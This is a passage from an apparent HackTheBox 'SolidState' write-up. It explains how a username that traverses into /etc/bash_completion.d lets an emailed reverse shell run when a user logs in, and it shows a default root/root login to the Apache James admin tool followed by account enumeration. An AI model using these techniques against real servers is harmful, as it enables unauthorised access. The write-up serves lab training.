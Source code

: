 Therefore, if we create a user with a username that leads to the /etc/bash_completion.d directory, when we send an email to that user, our email gets saved in the bash_completion.d directory and the content of our email is automatically loaded by Bash when any user logs into the machine. So if we include a reverse shell in the email, all we have to do is wait for a single user to log in and we have access to the machine!

Now that we’ve done our research, we’re ready to move on to the exploitation phase.

# Initial Foothold

First, let’s test the root/root credentials on the James Remote Admin server.

```
root@kali:~/Desktop/htb/solidstate# nc 10.10.10.51 4555
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
```

It works, good! List the available commands using the HELP command.

```
HELP
Currently implemented commands:
help                                    display this help
listusers                               display existing accounts
countusers                              display the number of existing accounts
adduser [username] [password]           add a new user
verify [username]                       verify if specified user exist
deluser [username]                      delete existing user
setpassword [username] [password]       sets a user's password
setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
showalias [username]                    shows a user's current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection
```

Use the listusers command to display existing accounts.

```
listusers
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
```
